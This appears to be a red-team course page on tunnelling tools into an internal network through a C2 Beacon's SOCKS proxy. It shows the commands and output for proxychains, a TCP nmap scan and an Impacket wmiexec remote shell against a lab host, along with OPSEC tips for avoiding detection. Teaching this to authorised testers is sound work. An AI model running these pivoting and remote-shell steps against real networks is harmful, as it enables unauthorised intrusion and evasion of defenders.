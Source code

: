 A SOCKS (Secure Socket) Proxy exchanges network packets between a client and a server via a "proxy". A common implementation of a proxy server is found in web proxies - where a browser will connect to the proxy, which relays requests to the destination website and back to the browser (performing filtering etc on the way). We can use this idea in an offensive application by turning our C2 server into a SOCKS proxy to tunnel external tooling into an internal network.

This is particularly helpful when we want to leverage Linux-based toolsets such as [Impacket](https://github.com/SecureAuthCorp/impacket). Windows doesn't have a native capability to execute Python, so being able to execute them on our own system and tunnel the traffic through Beacon can expand our arsenal of available tooling. It also carries additional OPSEC advantages - since we're not pushing offensive tooling onto the target or even executing any code on a compromised endpoint, it can shrink our footprint for detection.

To start a socks proxy, use `socks [port]` on a Beacon.

```
beacon> socks 1080
[+] started SOCKS4a server on: 1080
```

  

This will bind port 1080 on the Team Server.

```
root@kali:~# ss -lpnt
State            Recv-Q           Send-Q                     Local Address:Port                      Peer Address:Port          Process
LISTEN           0                128                                    .:1080                                 .:*              users:(("java",pid=1296,fd=11))
```

  

 > **OPSEC Alert**  
This binds 1080 on all interfaces and since there is no authentication available on SOCKS4, this port can technically be used by anyone.  Always ensure your Team Server is adequately protected and never exposed directly to the Internet.

Not many applications are able to use socks proxies by themselves - instead, we can use `proxychains`. This is a tool that acts as a wrapper, and will tunnel traffic from any application over a socks proxy. Open `/etc/proxychains.conf` in a text editor (`vim`, `nano`, etc, no judgement here :sweat_smile:). On the final line, you will see `socks4 127.0.0.1 9050`. Change `9050` to `1080` (or whichever port you're using).

To tunnel a tool through proxychains, it's as simple as `proxychains [tool] [tool args]`. So to tunnel `nmap`, it would be:

```
root@kali:~# proxychains nmap -n -Pn -sT -p445,3389,5985 10.10.17.25
ProxyChains-3.1 (http://proxychains.sf.net)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-08 12:35 UTC
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:445-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:3389-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:5985-<><>-OK
Nmap scan report for 10.10.17.25
Host is up (0.021s latency).

PORT     STATE SERVICE
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
```

  

There are some restrictions on the type of traffic that can be tunnelled, so you must make adjustments with your tools as necessary. ICMP and SYN scans cannot be tunnelled, so we must disable ping discovery (`-Pn`) and specify TCP scans (`-sT`) for this to work.

```
root@kali:~# proxychains python3 /usr/local/bin/wmiexec.py DEV/bfarmer@10.10.17.25
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:445-<><>-OK
[*] SMBv3.0 dialect used
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:135-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:49682-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands

C:\>whoami
dev\bfarmer

C:\>hostname
srv-1
```
